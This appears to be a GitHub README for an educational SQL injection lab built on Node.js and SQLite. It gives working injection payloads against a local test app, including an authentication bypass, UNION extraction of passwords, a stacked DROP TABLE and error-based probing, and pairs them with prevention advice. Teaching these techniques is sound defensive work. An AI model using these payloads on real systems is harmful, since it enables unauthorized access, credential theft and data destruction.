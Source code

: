 # SQL Injection Simulation

This document demonstrates a simple simulation of the most common SQL injection techniques that exploit vulnerabilities in a weak application.

---

## Environment Setup

Follow these steps to set up the environment for the simulation:

### Prerequisites
Ensure you have **Node.js** and **npm** installed on your system.

### Clone the Repository
```bash
git clone git@github.com:MarinosTBH/Cyber-attack-simulation-SQL-Injection.git
```

### Install Dependencies
```bash
npm install
```

### Run the Server
```bash
npm run dev
```

The application uses **Node.js** and **SQLite3** as its database.

---

## SQL Injection Techniques

### 1. Bypassing Password Authentication

#### Initial Query
```sql
SELECT id, username, password FROM user WHERE username = 'root' AND password = 'root';
```

#### Injection
Bypass the query using the following input:
```sql
' OR 1=1 --
```

#### Resulting Query
```sql
SELECT id, username, password FROM user WHERE username = '' OR 1=1 --' AND password = '';
```
This injection bypasses the password check, allowing unauthorized access.

#### Secure Alternative
To secure the application, use **parameterized queries** or **prepared statements**. This ensures user input is treated as data, not executable code.

---

### 2. Using `UNION` for Data Extraction

#### Exploit
Access the following URL:
```plaintext
http://localhost:3000/profile?id=1 UNION SELECT 1, username, password FROM user
```

#### Resulting Query
```sql
SELECT * FROM user WHERE id = 1 UNION SELECT 1, username, password FROM user;
```
This combines the result of the original query with data from the `user` table, exposing sensitive information such as usernames and passwords.

---

### 3. Using `--` for Commenting

#### Exploit
Access the following URL:
```plaintext
http://localhost:3000/profile?id=1; DROP TABLE user --
```

#### Resulting Query
```sql
SELECT * FROM user WHERE id = 1; DROP TABLE user --;
```
This executes the query to fetch user data and then drops the `user` table, effectively destroying the data.

---

### 4. Using Subqueries

#### Exploit
Access the following URL:
```plaintext
http://localhost:3000/profile?id=(SELECT MAX(id) FROM user)
```

#### Resulting Query
```sql
SELECT * FROM user WHERE id = (SELECT MAX(id) FROM user);
```
This retrieves the row with the highest `id` in the `user` table.

---

### 5. Extracting Data Using Error-Based Injection

#### Exploit
Access the following URL:
```plaintext
http://localhost:3000/profile?id=1' AND (SELECT 1/0) --
```

#### Resulting Query
```sql
SELECT * FROM user WHERE id = 1' AND (SELECT 1/0) --;
```
This forces the database to perform a division by zero, potentially revealing database structure or configuration details in the error message.

---

## Summary of Techniques
1. **Bypass Password Authentication**: Exploit logical conditions to bypass checks.
2. **Data Extraction with `UNION`**: Retrieve additional data by combining queries.
3. **Comment Injection with `--`**: Alter queries by injecting comments.
4. **Using Subqueries**: Extract specific information dynamically.
5. **Error-Based Injection**: Leverage error messages to gain insights into database structure.

---

### Recommendations to Prevent SQL Injection
- Always use **parameterized queries** or **prepared statements**.
- Validate and sanitize user inputs.
- Limit database user privileges.
- Use a Web Application Firewall (WAF) to detect and block malicious queries.
- Regularly update your dependencies and database systems.

By implementing these practices, you can safeguard your application against SQL injection attacks.


